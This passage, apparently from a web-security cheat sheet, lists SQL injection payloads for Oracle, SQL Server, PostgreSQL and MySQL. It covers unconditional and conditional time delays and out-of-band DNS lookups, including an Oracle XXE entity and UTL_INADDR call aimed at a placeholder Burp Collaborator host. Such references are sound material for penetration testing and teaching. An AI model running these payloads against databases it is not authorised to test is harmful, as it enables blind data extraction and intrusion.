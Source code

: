 **Oracle:**
```sql
dbms_pipe.receive_message(('a'),10)
```

**Microsoft:**
```sql
WAITFOR DELAY '0:0:10'
```

**PostgreSQL:**
```sql
SELECT pg_sleep(10)
```

**MySQL:**
```sql
SELECT SLEEP(10)
```

## Conditional Time Delays

You can test a single boolean condition and trigger a time delay if the condition is true.

**Oracle:**
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```

**Microsoft:**
```sql
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
```

**PostgreSQL:**
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

**MySQL:**
```sql
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```

## DNS Lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

**Oracle:**
```sql
-- (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

-- The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```
